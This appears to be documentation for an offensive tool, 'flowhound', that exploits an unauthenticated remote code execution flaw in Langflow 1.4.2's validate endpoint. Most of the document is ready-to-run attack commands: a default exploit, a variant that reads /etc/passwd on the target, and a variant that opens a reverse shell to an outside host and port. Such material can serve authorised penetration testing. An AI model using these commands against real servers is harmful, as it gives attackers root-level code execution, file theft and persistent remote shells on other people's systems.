



# CVE Description
**CVE Description:** Unauthenticated remote code execution vulnerability that allows remote attackers to execute arbitrary code under the context of root. The specific flaw exists within the handling of the code parameter provided to the validate endpoint. The issue results from the lack of proper validation of a user-supplied string before using it to execute Python code. An attacker can leverage this vulnerability to execute code in the context of root.

**Impacted Versions:** Langflow version 1.4.2


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-0768
```




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-0768 --command "cat /etc/passwd"
```




## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-0768 --reverse_shell 192.168.1.5:4444
```


